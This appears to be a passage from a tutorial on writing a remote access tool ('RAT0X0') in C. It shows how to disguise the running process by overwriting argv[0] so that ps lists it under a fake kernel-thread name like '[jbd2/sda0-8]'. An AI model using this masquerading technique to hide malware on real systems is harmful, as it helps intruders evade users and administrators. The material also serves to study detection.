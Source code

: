 ```C
#include <stdio.h>
#include <string.h>

int main (int argc, char *argv[]) {
  printf ("This is RAT0X0 version 0.1\n");
  getchar ();
}
```

Now, let's compile and run it and on a different terminal let's see how `ps` sees this simple process:

    $ ps -ax | grep rat
    (...)
    23022 pts/24   S+     0:00 ./rat0x0-01

That doesn't look promising. We could already change the name to `jbd2SOMETHING` on the disk before running the program but that will be suspicious and unlikely to be executed by a user.... We should assume that the program will have an arbitrary name.

The simplest way to change the name is to overwrite the `argv[0]` parameter that is actually the file name of the program being executed:

```C
#include <stdio.h>
#include <string.h>

int main (int argc, char *argv[]) {
  printf ("This is RAT0X0 version 0.1\n");
  strcpy (argv[0],"[Jbd2/sda0-8]");
  getchar ();
}

```

> Note: In principle your target name shall have the same length or less than the original one so it will fit in the current assigned memory. Otherwise you will need to shuffle around the stack to make room for the extra characters...

Let's try:

    $ ps -ax | grep rat
    (...)
    23431 pts/39   S+     0:00 grep rat

No trace of `rat0x0`. Let's see how this new `jbd2` looks like:

    $ ps -ax | grep bd2
       358 ?        S      0:27 [jbd2/sda5-8]
       991 ?        S      1:01 [jbd2/sda6-8]
     23371 pts/24   S+     0:00 [Jbd2/sda0-8]

I have just add a capital `J` to easily identify the process during development (you will have to kill it a few times). Note that `sda0` is not a valid partition name so it should be safe... alternatively you could also swap the `b` and the `d` in the name and use a valid partition name... Well, you can try different options to chose a name that will be unnoticeable, at least at first glance... 
